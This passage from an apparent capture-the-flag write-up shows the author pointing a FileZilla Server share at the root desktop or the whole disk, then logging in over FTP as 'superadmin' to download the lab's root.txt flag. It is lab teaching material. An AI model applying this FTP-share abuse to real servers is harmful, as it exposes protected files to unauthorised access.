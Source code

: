 ![](/img/1570124300109.png)

I could change that to `c:\` for full disk, or leave it to go directly
to `root.txt`.

I'll click ok, and then go to a PowerShell window to connect with FTP:



    PS > ftp 10.10.10.158
    Connected to 10.10.10.158.
    220-FileZilla Server 0.9.60 beta
    220-written by Tim Kosse (tim.kosse@filezilla-project.org)
    220 Please visit https://filezilla-project.org/
    202 UTF8 mode is always enabled. No need to send this command.
    User (10.10.10.158:(none)): superadmin
    331 Password required for superadmin
    Password:
    230 Logged on
    ftp> cd desktop
    250 CWD successful. "/desktop" is current directory.
    ftp> dir
    200 Port command successful
    150 Opening data channel for directory listing of "/desktop"
    -r--r--r-- 1 ftp ftp            282 May 22  2019 desktop.ini
    -r--r--r-- 1 ftp ftp             32 May 22  2019 root.txt
    226 Successfully transferred "/desktop"
    ftp: 124 bytes received in 0.02Seconds 6.53Kbytes/sec.
    ftp> get root.txt
    200 Port command successful
    150 Opening data channel for file download from server of "/desktop/root.txt"
    226 Successfully transferred "/desktop/root.txt"
    ftp: 32 bytes received in 0.00Seconds 32000.00Kbytes/sec.
    ftp>

